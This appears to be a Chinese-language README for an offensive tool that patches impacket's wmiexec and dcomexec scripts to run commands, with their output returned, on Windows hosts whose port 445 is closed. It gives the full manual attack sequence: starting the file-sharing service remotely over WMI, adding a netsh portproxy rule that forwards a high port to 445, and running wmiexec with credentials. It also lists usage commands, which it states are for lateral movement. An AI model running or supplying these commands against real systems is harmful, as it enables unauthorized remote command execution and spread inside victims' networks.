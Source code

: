 # WMIEXEC-NO445

impacket的wmiexec在没有打开445端口的情况下，进行有回显的命令执行工具。

## 安装方法

在安装好impacket的情况下，直接使用wmiexec-no445.py替换wmiexec.py就行。dcomexec.py一样。

## 原理介绍

此方法是通过wmi的silentcommand模式来直接通过135和高端口进行命令执行，后通过目标机器的netsh将高端口的流量转发到445，从而达到绕过445端口进行有回显的命令执行。因此此方法相比于wmi的silentcommand模式命令执行没有增加任何限制条件，只要能进行命令执行就能有回显。并且因为是通过smb来进行回显，因此也没有回显的长度限制。dcomexec在流量层和wmiexec一样，但是它的主机行为和wmi不一样，它直接使用的DCOM，没有wmi的具体行为。

## Windows手动回显命令执行

### 一、先打开文件共享服务

> wmic /node:172.16.178.9 /user:windows8 /password:* service where name="LanmanServer" call startservice

### 二、进行端口转发(将445端口转发到44500端口)

> wmic /node:172.16.178.9 /user:windows8 /password:* process call create "cmd.exe /c netsh interface portproxy add v4tov4 listenport=44500 listenaddress=0.0.0.0 connectport=445 connectaddress=127.0.0.1"

### 三、通过原始的impacket进行命令执行

在执行之前需要修改nmb.py中的SMB_SESSION_PORT值为更改的端口

> python3 wmiexec.py windows.local/windows8:*@172.16.178.9 "whoami"

## 工具使用方法

* 工具使用的前提是目标机器设置的端口黑名单，有打开135端口和10000以上的高端口，就能通过此工具进行横行移动了。

在目标没有打开445的情况下执行回显命令（默认445的转发端口为44500）：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445

> python3 dcomexec-no445.py ./administrator:*@172.16.178.5 "whoami" -object MMC20 -no445 

在指定50000为445的转发端口下执行回显命令：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445 -proxyport 50000

清除目标机器中的端口转发设置（默认清除44500）

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -clearport

> python3 dcomexec-no445.py ./administrator:*@172.16.178.5 "whoami" -object MMC20 -clearport

清除目标机器中的特定转发端口

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -portclear -proxyport 50000

## 使用实例

![image-20220209111347219](./example.png)

